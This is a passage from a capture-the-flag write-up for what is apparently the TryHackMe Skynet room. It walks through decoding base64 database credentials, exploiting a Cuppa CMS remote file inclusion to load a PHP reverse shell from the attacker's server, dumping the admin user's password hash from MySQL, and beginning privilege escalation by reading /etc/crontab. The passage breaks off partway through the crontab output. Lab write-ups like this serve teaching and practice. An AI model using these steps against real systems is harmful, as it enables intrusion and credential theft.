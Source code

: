 It was base64-encoded, so just:

    base64 -d config.txt

and we get the database username and password for cuppa:

username:root
password:password123

Reverse Shell:

copy php reverse shell into working directory.
Edit IP Address, and then set up a SimpleHTTPServer, port 80 in your wd:

    sudo python -m SimpleHTTPServer 80

In another terminal, set up a nc listener:

    nc -lvnp 1234

In Firefox, use this:

http://10.10.25.119/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.82.167/php-reverse-shell.php

Then you get a reverse shell!

I tried looking around to find usernames, passwords etc. before privescing:

    mysql -u root -ppassword123

    mysql> use cuppa;
    use cuppa;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    mysql> select * from cu_users;
    select * from cu_users;
    +----+---------------+----------------------+----------+----------------------------------+---------+---------------+
    | id | name          | email                | username | password                         | enabled | user_group_id |
    +----+---------------+----------------------+----------+----------------------------------+---------+---------------+
    |  1 | Administrator | skynet@tryhackme.com | admin    | b686468aec2c71e1783375763dca9b7e |       1 |             1 |
    +----+---------------+----------------------+----------+----------------------------------+---------+---------------+
    1 row in set (0.00 sec)

PrivEsc:

Take a look at the cronjobs using:

    cat /etc/crontab

Output:

    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,